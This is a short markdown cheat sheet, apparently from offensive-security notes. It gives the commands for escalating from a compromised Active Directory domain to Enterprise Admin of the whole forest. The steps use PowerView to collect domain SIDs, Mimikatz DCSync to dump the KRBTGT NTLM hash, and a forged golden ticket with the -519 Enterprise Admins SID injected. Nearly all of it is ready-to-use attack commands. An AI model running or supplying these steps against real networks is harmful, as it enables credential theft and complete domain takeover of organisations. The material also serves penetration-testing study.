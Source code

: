 ### Get SID of compromised domain using Bloodhound or Powerview
```
Get-DomainSID
```

### Get SID of target domain using Bloodhound or Powerview
```
Get-NetForest
```

### Get KRBTGT NTLM hash
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<compromisedDomain> /user:krbtgt"'
```

### Request golden ticket - can be done offline, since domain controller connection is not necessary (/enind = validity period 60 minutes, /user can be fictitious, -519 is the SID of enteprise admin)
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<attackerAccount> /domain:<compromisedDomain> /sid:<sidCompromisedDomain> /sids:<sidTargetDomain>-519 /krbtgt:<ntlmHashKrbTgt> /endin:60"'
```

